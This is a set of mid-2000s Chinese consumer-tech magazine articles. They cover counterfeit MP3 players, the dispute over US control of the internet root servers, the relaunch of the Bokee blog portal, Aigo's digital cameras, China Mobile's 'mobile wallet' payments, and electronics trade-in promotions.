首先需要了解MP3的主要制造工序：模具设计制造→方案（电路）设计→电路板制造→购买元器件及各种辅料→SMT贴片→装配。对于大品牌的MP3生产厂商来说，模具设计是一种创新工程，需要投入上万直至几十万的钱财。但是一种新的模具开发出来时，很容易因为人员的离开而流失。模具流失到市场上的后果就是某些小厂商会根据“非法获得”的模具，继续后面的程序仿造出自己的产品来，并投放市场。
这样，仿造的MP3产品至少在模具设计上的开发费用几乎为零，再加上采用低劣的解码芯片、闪存芯片，配备低廉的耳机，总成本自然就能维持在一个很低的水平。因为决定MP3制造成本的主要有微处理器（解码芯片）、闪存芯片、耳机等几大部分，把这几部分的成本控制在一个较低的范围内，整个产品的成本就低下来了。可以粗略算一笔账，以目前市场闪存芯片均价计，一台质量过硬的128MB的MP3的成本是：闪存芯片90元左右，主控芯片30元~40元，其他十几个元器件加外包装组装等费用约70元~80元，一台MP3的最低成本至少在200元以上，还要加上10%人工和设备成本，还要加上售后服务的保留，以及自己的赢利，以目前市场上300元左右的售价来看，可操作空间并不算多。然而，如果采用劣质原材料的话，所花的成本则与前者相差几十元甚至上百元，更别说与正品MP3的差价了。这也就是仿造的MP3之所以能低价的真正原因。

## 谁仿了谁？

记者在北京海龙电脑城转了一下午，发现众多MP3从外型上看，是大同小异，站柜台的也说不清是谁仿谁的，但是据熟悉市场的人士分析，被仿造得最多的名牌MP3无非两种，一种是在市场上卖得火的，一种是大企业的大品牌。
被仿的MP3品牌的造型往往非常美观、时尚。因为现在买MP3的消费者大部分是年轻人，喜欢追赶潮流、时尚，有的甚至把MP3当作一种装饰品。所以不少生产厂家就迎合消费者的这种心理，明目张胆的仿造。
另外，是低端的MP3厂商仿了高端的品牌MP3品牌，而不是相反。有人调查过，国内低端的MP3工厂主要集中在广东的番禺、东莞，深圳的宝安、南山区等地，至少有两百家。仿造的MP3也大部分出于此。

## 仿MP3的最大罪状

仿造的MP3进入市场，除了造成消费者直接利益受损外，最大的罪状就是扰乱了市场秩序，损害了消费者对MP3产品的信心，进而直接影响了整个产业的发展。
国内一知名MP3品牌的负责人说：“仿造品对我们单个品牌的冲击很大，但是，相对于对单独的一个品牌来说，仿造的、低价的MP3对整个行业，MP3产业的发展影响将更大。因为同质化，低质量的MP3充斥市场，消费者受低价、仿冒的影响可能会失去了判断力，未能理性购买，到最后发现真相后会认为是整个市场在欺骗消费者，从而对整个行业都失去了信心，从行业的长远发展来看，这显然是很不利的。
值得警惕的是，目前MP3市场比较混乱，包括仿MP3在内的低价MP3正在大打价格战，相互恶性竞争。有人称之为黎明前的黑暗，毫无疑问，价格战的结局是大家都会死的很难看。电视业、DVD行业的当年勇是MP3行业的前车之鉴。

## 远离仿MP3

在这里，也给消费者提个醒：在选购MP3时，切莫只看见哪款MP3长得和品牌MP3像，价钱便宜就兴奋，千万别让华丽的外表，低廉的价格以及经销商的巧舌如簧蒙住了眼

（新闻采访部实习记者 鲍有斌）

## 信息时代 谁主沉浮——互联网中枢神经根服务器控制权之争

自烽火发明以来，人类历史上没有哪一项技术像互联网一样如此深刻地改变了人们生产、生活及战争的方式……悠闲地坐在电脑屏幕前，全世界数以亿计的网民或许不会想到，在自由网络背后是国家利益对信息社会基础设施控制权的激烈角逐……

最近有两则消息格外引人注目，一是7月21日，中国互联网络信息中心(CNNIC)在京发布的“第十六次中国互联网络发展状况统计报告”显示，截至到6月30日，我国上网用户总数突破1亿，为1.03亿人。目前我国网民数和宽带上互联网人数均仅次于美国，位居世界第二位。另一件事正好发生在6月30日，美国政府出人意料地宣布，将无限期保留对全球互联网域名根服务器(root server)的监控权，尽管许多国家呼吁将该权力移交给国际组织；事实上美国也曾承诺将来放弃这一权力，那么美国为什么要出尔反尔呢？

答案是国家利益。“对域名根服务器的监控涉及美国重大的经济和国防利益，这就是美国不放弃监控的根本原因！”信息产业部电子科技情报研究所研究员唐静在接受本刊记者采访时表示。

### 互联网“根”生在何处？

大家知道，网上每一台计算机都有一个IP地址，为了容易记忆、查找和变更，于是科学家们就发明了一串ASCII字符组成域名来对应纯数字的IP地址。由于域名方便记忆，因此目前作为互联网上的寻址标准在全世界广泛被使用。域名系统按层次结构保存域名数据，最顶层的称为“根”，根服务器保存着所有国家和地区顶级域名(CCTLD)和全球通用顶级域名(GTLD)服务器的数据；从域名转换到IP地址的过程称为域名解析。

由于美国在互联网发展初期起到的核心作用(今天的互联网来自于1969年美国国防部出资兴建的计算机网络ARPANET，译为“阿帕网”)，使得在全球目前拥有的13个互联网域名根服务器中美国有10个、英国、瑞典和日本各1个。另有根镜像服务器有80多个，分布于世界各地(2003年初中国就已经引进根镜像服务器)。“这些镜像服务器功能和根服务器一样，但在互联网世界中的等级肯定是低于那13台根服务器的，也就是说最终的管理权还是集中在13个根服务器，由他们对这些镜像服务器每天进行动态更新。”唐静解释说。

另外，.COM、.NET这些顶级域名服务器全球也有13个，主要是集中在美国，其中美国8个、英国、瑞典、荷兰、日本和中国香港各有1个。美国Verisign公司是ICANN授权的.COM和.NET域名的注册管理机构，2002年，Verisign仅从全球注册域名收取的管理费就高达6亿美元。

1998年，美国商务部于1998年组建“互联网名称与数字地址分配机构”(Internet Corporation for Assigned Names and Numbers，简称ICANN)，这是一个根据南加州法律注册的非营利机构，理事会成员来自全球多个国家，但美国商务部却拥有最终否决权。ICANN负责全球互联网根服务器、域名体系和IP地址等的管理。

美国商务部曾经承诺，等到ICANN满足一定条件就将放弃自己的否决权，美国放弃对根服务器最终控制权的时限原定在2006年。但6月30日的声明显然使该计划成为泡影。Syracuse大学教授米尔顿穆勒指出：“美国政府完全违背了当初创建ICANN时的承诺，这简直是当头一棒。”

> > 这种思潮集中表现为1996年约翰·P·巴洛发表的“网络独立宣言”，在这封给世界各国政府的信中，巴洛写道：
> “工业世界的政府们，你们这些令人生厌的铁血巨人们，我来自网络世界——一个崭新的心灵家园。作为未来的代言人，我代表未来，要求过去的你们别管我们。在我们这里，你们并不受欢迎。在我们聚集的地方，你们没有主权。”
> “我们没有选举产生的政府，也不可能有这样的政府。所以，我们并无多于自由的权威对你发话。我们宣布，我们正在建造的全球社会空间，将自然独立于你们试图强加给我们的专制。你们没有道德上的权力来统治我们，你们也没有任何强制措施令我们有真正的理由感到恐惧。”

### 破碎的自由之梦

在美国宣布无限期保留对根服务器的监控权后，引起广大发展中国家的强烈反应。最近，联合国在瑞士日内瓦召开的一次会议上专门讨论了互联网控制权的归属问题。参会的联合国官员及许多发展中国家的电信部长们认为，美国政府对网络运行施加了不当的影响。他们建议由成立一个新组织对互联网基础设施进行监管，这个新组织要么归联合国管理，要么归国际电信联盟管辖。

### 把互联网变成一个和平的网络

叙利亞代表认为：“每天，垃圾邮件的数量越来越多。谁是受害者？发展中及发达国家同是受害者。因为有好处，那些发送垃圾邮件的人没有收手的迹象。对于我们而言，惟一的解决途径是追究那些垃圾邮件发送者的责任，或者从他们的国家购买机器设备来处理这一问题。然而，这种方法，我们相信，是无法接受的。”加纳建议成立一个额外的机构，“这个机构应该处理与互联网有关的问题，它还应该归联合国管理。”中国代表则主张：“互联网的公共政策问题应该在联合国主权国家的框架内得到联合解决。例如，垃圾邮件，网络安全，与网络空间这些问题，我们应该寻求联合国专门的机构来处理这些问题。”
事实上早在2002年，中国工程院院士，中国互联网协会理事长胡启恒就尖锐地指出，如果美国要把ICANN撤销，另外找一个组织用另一套办法来做，除美国外的很多国家对此事没有任何发言权。同年10月，在会见联合国秘书长安南时，她公开建议让联合国在互联网基础设施的管理中发挥核心作用：“可是你看ICANN这种结构，完全是美国把持着，他怎么能容忍联合国进来呢？可联合国不进来，就没有公平和平等可言，一切就是美国说了算，这个是最大的隐患，是21世纪人类和平的一个最大隐患。如果美国发动信息战的话，稳操胜券。一旦变成战争，对不发达国家来说，那就是不对称战争。”安南当时表示联合国是要考虑在互联网里头发挥作用。
在包括中国在内的广大发展中国家的推动下，2003年12月，信息社会世界峰会(WSIS)第一阶段(日内瓦)作出决定，要求联合国秘书长安南组建互联网治理工作组(Work Group on Internet Govenance，简称WGIG)，向安南提交报告，为2005年11月信息社会世界峰会第二阶段继续讨论互联网治理问题做准备。2004年11月，安南秘书长任命了由40个人组成的WGIG，胡启恒院士为中国代表。WGIG的成员中用问卷调查的方法，初步排出的五个受到优先关注的问题，其中IP地址和域名管理、根服务器系统的管理分别名列第一、二位。WSIS“行动计划”中规定，WGIG的主要任务是：
1. 定义互联网治理；
2. 确定互联网治理有关的公共政策问题；
3. 对于政府，已有的政府间组织和国际组织和其他议事机构，以及发达和发展中国家的企业界，和社会团体，各自在互联网治理中的角色和作用的问题，提出能取得共识的方案；
4. 在完成上述工作的基础上，提交报告和建议，供2005年WSIS第二阶段突尼斯会议考虑并采取适当的行动。
业内人士普遍认为，由于美国政府的坚持，互联网根服务器所有权问题短期内难以得到解决。要把互联网变成一个和平的网络，人类显然还有漫长的路要走。

### 以国家安全的名义

根服务器本身也不是绝对安全的。2002年10月21日下午5点前后，13台互联网根服务器就曾受到大规模DDoS(分布式拒绝服务)攻击，大量的数据潮水般涌向这些服务器。据说只要攻击再持续一个小时，整个互联网的域名服务体系就会陷入崩溃。不过也有中国互联网专家表示，这些病毒也是美国的武器，一次又一次的病毒暴发事实上都是他们在练兵！
为了国家安全，中国政府作了大量细致而具体的工作。以前我国是三级域名.COM.CN，2003年3月17日12时，CN二级域名注册正式开通。CN二级是网络世界中国国家主权的象征，由于CN域名根服务器在国内，我们就不用担心在特殊情况下别人通过停止解析服务等手段瘫痪中国网络。另外CN域名的注册管理机构是中国互联网络信息中心，有关CN域名的纠纷将由我国的机构根据中国法律解决，避免了注册.COM等国外域名面临的国际诉讼风险。
令人遗憾的事，今天CN域名在我国仍然没有得到足够的重视，甚至一些关系国家形象和经济安全的网站也用COM域名。今年两会期间，身为全国政协委员的胡启恒院士提案建议：我国网站，特别是关系到国计民生的重要网站，比如政府网站、新闻网站、金融证券网站、重要电子商务网站等，都应从国家信息安全与经济安全的高度考虑，注册并使用CN域名，并把CN域名作为网站的标识加以公布和宣传，引导网民使用。“大部分域名不在国家域名CN下注册，这对我国信息安全构成了重大隐患。”她说。
据统计，COM域名国内注册量已超过120万个，CN域名目前的注册量、接近70万个；即由我国直接控制管理的域名只占全国域名注册量的27%。针对美国坚持保留对根服务器监控权的作法，钱华林理事公开表示：“美国此举将意味着通用顶级域名存在安全隐患，我国的一些要害部门，如CCTV，应当采用中国国家顶级域名CCTV.cn。”通过应急建立根服务器或者使用已有根服务器的镜像，当出现网络被隔离的紧急情况下，凡在.CN下注册的域名，仍可以利用根服务器，解析到顶级域名.CN服务器的地址，再通过.CN顶级域名服务器解析在.CN下注册的所有二级或三级域名，从而保证网站地址或E-mail地址能够正常访问或使用；但是，COM或.NET下注册的域名则无法正常使用。
除了引入CN二级域名，我国还积极参与了下一代互联网IPV6的研发推广工作。基于IPv6域名根服务器打破过去美国等互联网强国垄断根服务器的局面，为我国在下一步规模化部署IPv6网络提供基础名字服务提供了强有力的技术支撑。
信息产业部电子科技情报研究所唐静研究员最后告诉记者，尽管我们在互联网安全上已经作了很工作，但在有些重要部门，我们仍不得不采取物理隔离手段，严格禁止一些计算机上网。
正如胡启恒院士所说，互联网毕竟还是现实社会的一部分。为了维护中国的安全和主权，我们仍需要作更大的努力—在开放的信息社会，它不仅取决于政府部门的工作，它还取决于每一个网站，甚至每一个网民的关注和参与！
（新闻采访部实习记者 翟玉忠）

## 博客网：穿了马甲我还认识你

在网络上记录每天的经历占据了网民的大量时间，却总有加入者乐此不疲。网民的这种主动筛选并提取信息的方式被称为博客(BLOG)，它被认为是互联网2.0时代的革命性力量。人们逐渐忘记了提出互联网1.0时代的互联网之父(温顿.瑟夫)，却开始接受并习惯了早在数年前倡导互联网2.0时代的方兴东。这次，这位貌不惊人的中国人要将互联网2.0时代引向何处？也许从博客中国改版为博客网里面可以找到一些答案。

### 博客真是互联网2.0的革命力量？

回首过去的10年，是互联网商业化浪潮风起云涌的10年。在这个以技术为本、以商业化为主旋律的“互联网1.0”阶段，缔造了一大批网络传奇，成就了一大批时代明星和创业富翁，成为中国社会发展和变革的主要驱动力。按照原博客中国缔造者方兴东的话说，“互联网1.0”时代给人们留下了不能回避的遗憾，它使我们个人沦为了互联网被动的受众、读者和消费者。
如今，站在下一个10年的路口，我们看到互联网新的一轮浪潮再度崛起，那就是以“以人为本”、个性化为主旋律的“互联网2.0”时代的到来。没有人给“互联网2.0”时代下一个确切的定义。即使是在博客网新版亮相发布会上记者也没有找到这个答案。如果说网民每一个人都可以同时成为主动的传播者、作者和生产者的时代就是互联网时代的升级，那么这种略显粗糙的、智能承载有限文字和低分辨率图片信息的、有价值信息不多的博客，就能开创一个互联网的新纪元了？
让网民显露身手本是博客成立的初衷，非要加一个新时代的烙印也略显强硬，但明眼人都看出来了，博客网的“全球第二代门户的领导者”的称谓所指的竞争对手仍旧是新浪、搜狐、网易等“第一代门户网站”。因此为了竞争而将互联网划分时代的做法就显得有些牵强了，将博客誉为互联网2.0的革命力量更无据可查。

### 博客代表草根阶级与商业化无关

顾名思义，互联网时代的草根阶级指的是那些在互联网时代扎根很深的人们，从这一点上来说，草根阶级是没有贵贱之分的。从另外一点来说，草根阶级的概念涵盖了这类人群的一个共同的特点：他们了解互联网，了解互联网上出现的每一个人物，更善于观察互联网的最新动态。因此，他们喜欢抒发自己的观点，更希望得到同仁的关注。博客的出现，恰好满足了他们的需求。但这与商业化何干呢？
关注近一段时间有关博客网商业化的讨论，我们不难发现，改版后的博客网也好，其他提供博客服务的网站也罢，无一例外地依赖无线增值服务和网络广告获得有限地经济补偿。如果你有心将放大镜倍数提高，你更不难发现这些无线增值服务商和网络广告的投放者一半以上是与这些博客网站的CEO称兄道弟的同道中人，将眼前的服务转化为远期的投资多数是这些肯掏钱的人的共同心态。难道靠这些外在因素的供给，博客网就能自生造血机制，布道互联网2.0时代吗？
退一步讲，即使博客网赢利了，真正成为“全球第二代门户的领导者”了，那有可能也是具有中国特色的博客的成功。因为有些互联网人士认为，把有限的编辑数量变成无限的创作队伍的想法，是基于没有知识产权纠纷的情况的。诸如伦敦地铁爆炸案消息经博客网站传播此类在新闻史上流上一笔的事件，也只能在知识产权保护较好的发达国家发生。

### 博客中国还是中国博客？

最后我们还是将着眼点放在穿上“全球第二代门户的领导者”外衣的原博客中国吧。它的重新包装并不具备“门户”的气势，至少从媒体们的反应来看是如此的。为数不多的亮点竟来自发布会上的一个反面声音—和讯CEO谢文的几句“大实话”。
“说穿了现在广告加无线，无线其实和博客不沾边，广告到现在我认为至少也不沾边，无非老朋友老关系，把自己的资源嫁接到这儿，年底就一个亿了？我不信。我把话放在这儿，咱们试试。”
“我自己没事的时候替你们着急，你说你定义成博客媒体了，年底就世界第一了？”
其实，作为国人有哪个不希望在互联网的第二春来到的时候，中国人能真正引领一次时代的潮流呢？可谋大事者不拘小节，靠改个名字就能让网民重新领略你的雄才伟略了吗？也许还真如谢文所说“其实博客中国多好啊”，至少等你火了以后，还有国人给你撑腰呢！
（新闻采访部记者 张健）

国货当自强，抗日责任担肩上

### 爱国者吹响向日系数码相机的开战号角

移动存储产品过去外国人没有做，我们做了，而且做到了第一！MP3过去是韩国人的天下，后来我们也勇敢地做了，而且又做到了第一！这两个第一，都是地地道道的本土企业华旗资讯用其“爱国者”品牌做到的！2005年7月27日，华旗在人民大会堂召开新闻发布会，总裁冯军斗志昂扬地宣布：“我们的目标是，攻克日本品牌在民用电子领域最后一个坚固的堡垒——数码相机领域！”8月15日，华旗资讯全球同步推出一系列高品质的DC精品——爱国者V815、V815+、V60、V60+、V80和V80+。V代表胜利，815系列表达华旗对胜利的渴望，60系列是对抗战胜利60周年的纪念，而80系列则是中国人自己研发、自己制造、达到国际品质的800万像素DC。华旗资讯由此吹响了向日系数码相机开战的号角。

### 华旗凭什么挑战日系厂商的垄断

无须查看任何数据，只要走进摄影器材城、IT卖场和大型商场，相机柜台前映入眼中的DC几乎清一色都是日本品牌！上世纪90年代初期，中国摄影器材市场还是柯达的天下。但当90年代中期数码大潮袭来之时，如狼群般涌入的日本品牌迅速击垮了柯达，实现了对中国DC市场的集体垄断。90年代末期，联想也曾涉足DC领域，但由于其产品品质和市场营销都稍显稚嫩，未能突围。时至今日，市场上的非日品牌，只有游走在主流之外的柯达、惠普和三星了。面对此情此景，华旗以何挑战？对此，冯军引用爱国者MP3用八个月的时间赶超三星的壮举来类比。他说：“2002年，MP3市场上还没有一个中国品牌。业内普遍认为，就像中国足球队没有赢过韩国队一样，作为一个中国品牌要挑战并超越韩国品牌是不自量力的。但到去年，我们MP3的销售数量是三星的两倍。”

### 华旗在数码影像技术上的优势

如果单论光学、芯片和色彩处理等数码影像核心技术，日本企业大幅度领先的态势短期内还是难以撼动的。不过事实上，很多日系企业更专注于进行产品设计和规划，实际生产则委托其他企业代工。可以说，由于采购全球一体化和OEM代工形式的普及，在产品层面上反映出来的诸如模具加工的精度、造型设计以及成本控制这些因素上，我们和日系厂商其实站在相对平等的起跑线上。从本次发布会上我们看到的几款相机那精美的造型、精细的做工、动人的才智和靓丽的大屏幕可以看出，华旗此次下定决心大举进入消费类DC领域，显然也获得了代工厂商的大力支持。华旗在向国人宣布：爱国者有实力与日系厂商一搏！此外，华旗还有个杀手锏——专利的数字水印技术，此次更推出了采用数字水印技术的数码相机产品。这划时代地意味着，我们将在未来告别数码相片版权真空的历史。其实，早在两年前，华旗就已经把数字水印技术应用到了新浪网，后来，新浪网也采用了这个技术来保护自己的数字图片版权。这些，都是日系厂商不具备。

### 为勇敢者喝彩！

可以预见，在数码相机市场上，华旗面对的将又是场艰苦卓绝的“抗日战争”。虽然关键技术和核心部件的生产都掌控在对手手中，但我们仍为这种无畏的豪气肃然起敬！过去，我们曾无数次地呼吁国人支持民族产业、支持国货，但一些国货不争气的品质却令我们难以接受。今天，面对一批批民族企业国货品牌名扬四海，面对如此精美的国货数码相机，我们义无反顾地大声疾呼——支持国货，支持爱国者！

（本刊编辑部）

## “手机钱包”引发支付革命

“现在有了‘手机钱包’，我就再也不用到我们小区门口那个彩票投注站去了，没想到‘手机钱包’给我带来这么多好运！”在接受记者采访时，胡先生无法掩饰自己内心的兴奋和中奖后的喜悦。事情还要从头谈起。家住北京市宣武区的胡先生是一位软件专家，他们小区门口就有一个彩票投注站，但因为实在太脏乱，所以胡先生一直不太愿意去那里买彩票，自己工作忙又没有时间赶到其他地方买；当他听说中国移动“手机钱包”业务实现了手机绑定银行卡就可以进行彩票投注后，马上申请了这项业务，并成为彩票投注的忠实用户。今年7月底，胡先生使用“手机钱包”投注“福彩3D”，投注18元，中得近7000元的奖金，并在第一时间就收到了“手机钱包”的中奖短信通知。据悉目前全部奖金已自动划入胡先生“手机钱包”所绑定的银行卡账号内。用“手机钱包”进行彩票投注，无须购买投注卡、随时随地想投就投、中奖后免费短信通知、自动返奖至投注账号，所有这一切体现了“手机钱包”的优点——不受时间、地域的限制，灵活、便捷、省时、省力、省心。从现场交易到非现场交易，“手机钱包”的出现正在引发一场静悄悄的支付革命……

### 有了手机，还用带钱包吗？

从以货易货的原始交易，到使用金属货币、纸币，再到电子货币，文明的进步总是伴随着人类交易方式的改变。随着电子商务和移动通信业务的飞速发展，移动电子商务和移动支付也随之产生了。有专家认为，移动电子商务是指利用移动通信网络进行数据传输并通过移动信息终端参与商业活动的一种新型商务模式，是纯数字产业与传统行业相结合的产业，也是实现传统行业数字化的一个重要途径，它的核心问题是移动支付。移动支付通常有三种模式：一是通过移动运营商的话费进行代收。但这种方式可能被享用手机费用全额报销的用户恶意利用，加大坏账风险；二是通过移动运营商帮助客户建立一个小额的账户，利用该账户进行交易。这种模式有很大的安全性，但在交易金额和金融监管方面却有很大的局限性；三是将移动用户的手机号码与银行卡号码捆绑，再通过移动的网络，利用银行的后台系统进行交易处理，这就是目前中国移动推出的“手机钱包”和中国联通推出的手机银行的商业模式，也是业界认为比较完善的商业模式。

### 发展的瓶颈

尽管目前中国移动支付发展很快，但与日本、韩国相比较，中国移动支付市场仍处于培育阶段。联动优势业务管理总监倪敏把“手机钱包”用户描述为银行卡与中国移动用户的交集。据中国人民银行截止到今年2月的统计数字，我国各类银行卡的发卡总量已超过7.6亿张，其中带有银联标志的卡达2亿张，中国移动用户2.8亿；而目前移动支付业务发展最早的联动优势手机钱包注册用户只有200多万——这个“交集”显然太小。韩国金融界一直十分重视移动支付，发展也很快。去年韩国央行公布的一份数据显示，仅在2004年6月份就有58.1万名韩国人利用手机完成400万笔金融交易。目前韩国所有零售银行都能提供移动银行业务，每个月有超过30万人在购买新手机时会选择具备特殊记忆卡的插槽，能储存银行交易资料，并进行交易时的信息加密；韩国有几万家的餐馆和商店拥有能从手机通过红外线读取信用卡信息的终端。日本最大的通信运营商NTT DoCoMo在推动钱包上可谓不遗余力。2004年，NTT DoCoMo为了推动支持非接触式IC卡“FeliCa”手机的普及，开展了FeliCa读写器的计划，即针对计划推出FeliCa支持服务的厂家，NTT DoCoMo出资100亿日元代其承担读写器等设备费用。作为回报，NTT DoCoMo根据一定比例按FeliCa手机所带来的营业额收取部分手续费。NTT DoCoMo宣称，目前已有300万手机用户使用手机钱包服务，他们可以在2万家商店和自动售货机用手机付款。

那么中国的移动支付业务为什么显得相对滞后呢？联动优势倪敏女士认为，首当其冲的原因就是用户习惯问题，目前我国银行卡有近8亿张，真正活跃的银行卡并不是很多——一个人可能有多张卡，但真正用于支付的并不多——移动支付需要一个培育过程，这不是一朝一夕能改变的。

其次，中国移动支付业务相对滞后的原因与我们的金融体制，电信体制有关，我们的行业垄断性较强，部门间壁垒较大，这显然不利于移动支付业务的发展。目前我国移动支付市场中存在着以运营商为主导、以银行为主导和以第三方移动支付运营公司为主导的多种商业格局，业内专家建议，建立统一商业模式对移动支付产业发展非常重要，这将有利于迅速集中地培养消费者消费观念、统一移动支付市场规范、创立良性移动支付环境。从现阶段我国移动支付产业发展来看，第三方移动支付运营公司为主导的格局，在产品创新、对市场需求进行快速反应方面具有一定优势。中国移动和中国银联引入第三方——联动优势科技有限公司可以说是一个很好的尝试，目前中国移动的“手机钱包”服务已经在全国近三分之一的省市开通业务。

对于移动支付的安全问题，联动优势产品开发部总监吴锋海认为，长期以来习惯面对面交易的消费者对移动支付安全问题的担心是可以理解的，但事实上“手机钱包”比普通钱包安全得多，无论手机被窃还是黑客之类的人“窃”了密码，都不可能使“手机钱包”落入偷窃者手中。原因是在手机和银行卡绑定后，必须有两个因素同时起作用才能完成支付，即手机号码和手机钱包密码（不同于银行卡密码）都必须是可用的，二者缺一不可；如果别人拿到你的手机，但不知道手机钱包的密码，这个人同样不能完成支付。如果别人窃取了你的手机钱包密码，但由于手机不在那个人手上，他同样不可能完成交易。

另外，手机钱包支付是通过中国移动的专网和各银行的专网进行的，不是在公网上进行的，这就大大加强了它的安全性。吴锋海告诉记者，自中国移动推出“手机钱包”业务以来，没有发生过一起“手机钱包”（不是手机本身）被窃案件。万一发生手机被盗抢、丢失情况，用户可拨打“手机钱包”24小时客服电话及时挂失账户以免遭受损失。

### 拥有你自己的“手机钱包”

据中国移动的一个调查显示，在一天24小时内，只有不到3小时的时间手机在用户两米之外。有20分钟手机不在身边，用户就会去找。随着手机的私密性越来越强，手机和银行卡绑定后，“手机钱包”的私密性也会越来越强，成为我们不能或缺的工具。

在世界范围内，当亚洲和欧洲的消费者已经使用手机购买碳酸饮料和停车费用时，迟疑不定的美国公司也开始行动起来。美国最大的移动服务运营商Cingular Wireless公司首席财务官彼得·里彻在谈到这一市场时说：“你将继续得到更多的体验，更多的行业将复苏这一结论”。据相关机构预测，到2006年时全球通过手机支付的交易量，将占到电子商务在线交易市场份额的15%。

手机钱包（支付）的发展仍处于萌芽阶段，但它的市场潜力却是不容低估的。在理论上，它可以作到如下应用：

- 缴费（包括水、电、煤气等公共事业费的缴纳、税务、交通罚款、有线电视、会员费等）；
- 购买彩票；
- 付费电子邮箱；
- 充值卡充值（如向市政一卡通等进行充值操作）；
- 各类传统媒体的征订购买；
- 订票（机票、火车票、演出票、电影票、各类球赛门票等）；
- 远程或网络教育的付费；
- 网上商城（包括IP卡、游戏卡、充值卡及各类实物商品的销售等），自动售货机购物消费；
- 购买保险；
- 酒店预订；
- 软件下载。

目前中国移动的手机支付业务仍然是免费的（但有些电信运营商或银行机构已经实施的10元/月的移动支付业务资费），它的功能和应用范围正在不断的扩大，让我们以中国移动的“手机钱包”为例说明怎样拥有你自己的“手机钱包”：

首先，客户必须是中国移动的用户，该客户必须拥有一张工商银行、民生银行、广东发展银行或浦东发展银行的银行卡；用户可通过直接到移动、银行营业厅，或通过短信、USSD、语音电话、网络银行等多种方式定制“手机钱包”，把自己与银联网的银行卡与手机号码绑定。最后，注册了“手机钱包”的用户可以使用手机短信、语音、WAP等多种操作方式缴手机话费、查询银行卡余额和历史交易，并可享受手机投保、福彩投注、购买数字点卡等一系列个性化服务。目前在北京、天津、黑龙江、山东、湖北等地已开通了手机钱包业务；详情请咨询“手机钱包”客服热线：010-63691666或登陆联动优势的网站（www.umpay.com）。

中国联通的手机支付业务可以通过以下网站查询详细信息：http://95533.hn165.com/index.htm。

（新闻采访部实习记者 翟玉忠 鲍友斌）

## “QQ升级变‘活跃天’不是关键”

“消费者怎么了？以旧换新就是一个新品上市前短暂的促销活动啊，为什么会有担心呢？”这是一位国内知名品牌电脑产品经理跟记者说的话。以旧换新确实没什么不对，问题是消费者担心这种赔本赚吆喝的买卖怎么会有人愿意做呢？在接下来的采访中，您将了解到正规厂商是如何通过这样的活动完成一个新品促销计划的。对一个精明买家来说，以旧换新，无疑是一个绝好的机会。

暑期促销阶段基本上已经划上了圆满的句号。相信不少消费者也在此期间购得自己满意的产品，但面对九月新生购机的又一浪潮的来临，商家丝毫没有放松神经的迹象。一波接一波的“赔本”促销计划已经让消费者有些敬而远之了，比如有商家打出了键盘鼠标“以旧换新”的旗号，更不用说品种繁多的移动存储产品。这些产品的类似之处在于成本不高；但清华紫光前不久打出的“喜新换旧、应用升级”让记者也不禁为之一振。

近日，记者从清华紫光获悉，他们将活动对象定位在原有的老用户身上。对此，紫光相关人士解释说：“此次活动有两层含义，一是以优惠这种形式，来回报老用户对紫光笔记本的情结。当然，针对老用户，我们还有很多种关怀的方式，这在日后将逐一体现；二是希望通过我们产品和服务，引领紫光的老用户及时享有现代数码生活的新感受。”

活动期间，凡消费者购买任何一款紫光笔记本电脑，将有机会领取一个换机卡，消费者可以凭借换机卡，携带自己的旧电脑（无论新旧、任何品牌）到紫光笔记本售后服务中心折旧换取高额现金。记者从客户服务中心了解到，活动开始后不久，确实有不少打电话来咨询换机的消费者，他们的询问焦点就是自己的旧电脑的折旧率和可获得的金额。

另外一个例子来自BENQ明基电脑公司。在一次BENQ键盘以旧换新的活动中，消费者可以用BENQ的旧键盘加上差价后就可得到一款崭新的BENQ键盘。BENQ的工作人员向记者解释道：“以旧换新是BENQ的一种正常新品推广活动，相比促销、大礼包等传统模式，以旧换新确实对消费者的诱惑太大了。”

### “以旧换新 确有其事”

当问及BENQ这样做是否亏本时，这位工作人员丝毫不掩饰作为厂商的用意，“新品推广一般都会按照计划进行，BENQ较少采取以旧换新的推广方式，就是因为相对其他形式而言，以旧换新的推广成本会比较高。既然推广是有预算的，那就无所谓亏不亏本了。”

### “旧货 一点儿不糟蹋”

“换下来的键盘都将被送回工厂”，BENQ的工作人员语出惊人，让记者浮想联翩，难道……？

记者从BENQ市场推广部了解到，一般换下来的键盘确实会被送回工厂，而且BENQ工厂专门有一个部门是负责拆解旧键盘的。旧键盘的电路板完全可以实现重塑，就连键帽等易损件也可以通过专门的途径变废为宝。回收旧键盘加以综合利用，以资源实现重复使用，这也是BENQ明基公司一直秉承的制造理念。据了解，不少外设和存储产品的厂商都会选择类似BENQ的方式处理旧设备。具有生产能力的厂商一般都会考虑到电子垃圾的回收问题，如此看来，消费者担心的诸如旧件重返市场的现象基本可以杜绝。

我们再来考虑清华紫光笔记本的以旧换新推广活动，消费者不解的是，难道价值数千元的二手笔记本也拿来重塑吗？通过走访，记者逐渐搞清楚了这个问题的答案。清华紫光的百十家维修和售后服务部门遍布全国数十个城市，每年要消耗掉大量的备件资源。比如当我们的电脑出现问题，假如你选择了清华紫光的售后服务体系，你会发现，多数时候高额的笔记本维修费用的重要来源就是更换新配件的成本。清华紫光在运作此次笔记本电脑以旧换新的活动前，做过大量市场调研，结果显示：一方面客户有更换笔记本电脑的需求；另一方面，前来维修各种品牌的笔记本用户，急需降低维修成本。紫光认为，以旧换新活动如果进行顺利的话，大部分可以点亮的旧笔记本电脑可以为售后服务部门提供充足的备件。在客户许可的情况下，紫光承诺，更换旧备件同样提供质量保证。如此看来，以旧换新活动对厂商来说，投入和产出基本上是在合理的范畴内的。换句话说，人家的旧货可是一点儿都不糟蹋的。

### “以旧换新有误区”

由于“以旧换新”有诸多好处，在实施过程中又起到了促销的作用，这当然是厂家和商家都很愿意看到的。遗憾的是一些商家只注重“以旧换新”所引发的促销作用而忽视或根本省略了实质内容。如前段时间媒体揭露的一些商家搞彩电“以旧换新”的变相欺诈行为。他们先是广而告之可以“换新”的“旧品”的规格要求，折价金额（几乎包罗所有，但用语预留不确定性），当消费者拿来旧品后，他们又以种种理由证明你的旧品实在是“朽木不可雕”也，然后再压了又压回收价。

前不久，在某LCD厂商的促销活动中，有一对年已古稀的老年夫妻费尽千辛万苦扛来的19英寸尚在使用的CRT显示器竟被判定为50元，老人欲哭无泪，只因路途遥远，返回又要花去一笔不菲的车费，只好忍痛接受不平等条约。当然，也有赌气扛回旧品，而后断交的。

